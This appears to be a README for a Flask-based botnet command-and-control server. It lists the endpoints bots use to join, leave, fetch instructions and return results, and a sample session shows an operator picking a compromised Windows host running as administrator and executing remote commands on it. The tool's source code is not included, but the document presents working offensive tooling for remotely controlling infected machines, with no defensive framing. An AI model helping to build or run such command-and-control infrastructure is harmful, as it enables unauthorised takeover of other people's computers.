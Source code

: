 # Master Of the Botnet

The botnet master is a Flask server that hosts the following endpoints:

- POST `/welcome`:
    - This enpoint is used to connect the bot to the botnet.
- POST `/bye`:
    - This enpoint is used to disconnect the bot to the botnet.
- GET `/c2`:
    - This enpoint is used to retrive the instructions by the bots.
- POST `/c2`:
    - This enpoint is used to retrive the result of the instructions from the bots.

### Usage:

```powershell
$ python master-botnet.py

Welcome to the master of botnets via HTTP...

Choose a bot:  * Serving Flask app 'master-botnet'
 * Debug mode: off

[+] We have a New Family Member, say hello to Windows-01

[0] Windows-01

Choose a bot: 0
Windows-01>
[Windows-01] Has something for you...
Windows-01\administrator

Windows-01> ls /
Windows-01>
[Windows-01] Has something for you...

    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        07/05/2022     07:24                PerfLogs
d-r---        02/12/2024     08:20                Program Files
d-r---        26/11/2024     14:10                Program Files (x86)
d-----        03/12/2024     15:31                tmp
d-r---        26/11/2024     12:56                Users
d-----        14/10/2024     22:57                Windows
d-----        03/08/2024     13:35                XboxGames
-a----        22/02/2024     00:33         112136 appverifUI.dll
-a----        22/02/2024     00:34          66328 vfcompat.dll

Windows-01>
```
